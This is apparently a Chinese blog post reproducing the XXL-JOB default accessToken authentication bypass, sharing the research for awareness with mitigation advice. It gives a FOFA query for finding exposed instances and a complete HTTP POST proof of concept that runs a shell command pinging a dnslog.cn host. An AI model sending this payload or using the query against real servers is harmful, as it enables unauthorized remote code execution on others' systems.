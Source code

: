 # 原创
：  漏洞复现--XXL-JOB默认accessToken身份绕过漏洞

# 漏洞复现--XXL-JOB默认accessToken身份绕过漏洞

## 免责声明：

文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负

### 一：漏洞描述

2023年11月1日，深瞳漏洞实验室监测到一则XXL-JOB组件存在认证绕过漏洞的信息，漏洞威胁等级：高危。<br/> 该漏洞是由于XXL-JOB 在默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值，如果用户没有修改该默认值，攻击者可利用该默认值在未授权的情况下绕过认证，最终可导致远程代码执行。

### 二：漏洞影响版本

XXL-JOB &lt;= 2.4.0

### 三：网络空间测绘查询

fofa:<br/> `"invalid request, HttpMethod not support" &amp;&amp; port="9999"`

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/f7f1afb256f04f61186f249a0100168b.jpeg"/><br/> POC:

```
POST /run HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: 
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default token
Upgrade-Insecure-Requests: 1
Content-Length: 333


{
"jobId": 1,
"executorHandler": "demoJobHandler",
"executorParams": "demoJobHandler",
"executorBlockStrategy": "SERIAL_EXECUTION",
"executorTimeout": 0,
"logId": 1,
"logDateTime": 1586373637819,
"glueType": "GLUE_SHELL",
"glueSource": "ping xxx.dnslog.cn",
"glueUpdatetime": 1586693836766,
"broadcastIndex": 0,
"broadcastTotal": 0
}

```

存在漏洞：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e7e9c4450c9fe5eb3660b00da4619bf0.jpeg"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c05c9db5d00c4a1f8a7e00fb9469b959.png"/>

### 五：修复建议

当前官方已发布修复建议，建议受影响的用户及时修改调度中心和执行器配置项 xxl.job.accessToken 的默认值。官方文档链接如下：<br/> https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89
